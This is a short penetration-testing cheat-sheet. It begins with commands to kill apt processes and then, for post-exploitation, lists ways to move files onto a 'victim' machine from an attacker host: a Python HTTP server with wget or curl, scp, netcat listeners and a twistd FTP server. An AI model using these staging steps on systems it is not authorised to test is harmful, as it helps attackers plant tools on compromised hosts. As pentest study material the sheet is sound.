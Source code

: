 #Check if the process was killed by running the ‘ps aux | grep -i apt’ command. If it is still running, force kill it with SIGKILL signal:
sudo kill -9 <process_id>

# Another, easier way would be to use the killall command. This will kill all the instances of a running program:
sudo killall apt apt-get


## Upload/transfer files to target machine ##################################

(https://www.hacktoday.io/t/transfer-files-post-exploitation-cheatsheet/2632)

# Simple HTTP Server Method - With this method we will host our file to upload with a simple python server, and then download it with wget in the victim (or curl if it is not installed).

# Attacking machine command: 	
python -m SimpleHTTPServer 80

# Upload Single File on Victim machine: 
wget http://IP/FiletoTransfer  or -> curl -o FiletoTransfer http://IP/FiletoTransfer

# Upload An Entire Directory to Victim machine and avoid downloading auto-generated index.html files: 
wget -r -np -R "index.html*" http://URL/DIR/    or wget -r -nH --cut-dirs=2 --no-parent --reject="index.html*" http://URL/DIR/ 


# SCP(SSH utility) - This method will only be valid if the target machine has ssh and we have the credentials. We will use the scp utility to transfer the file
To copy a file from a local to a remote system run the following command:
scp file.txt remote_username@10.10.0.2:/remote/directory/

# Netcat - We will use the tool that is known as the Swiss knife of the hacker, netcat. Most computers with linux have it installed so this is an advantage.
Victim machine command: -> nc -lvnp 4444 > FiletoTransfer
Attacking machine command: -> nc TARGET_IP 4444 -w 3 < FiletoTransfer

# FTP - We will mount a temporary ftp (we could use a conventional ftp) using the twistd utility to access from the victim and download the file
Attacking machine command: -> twistd -n ftp -r .
Victim machine command: - > wget ftp://IP/FiletoTransfer
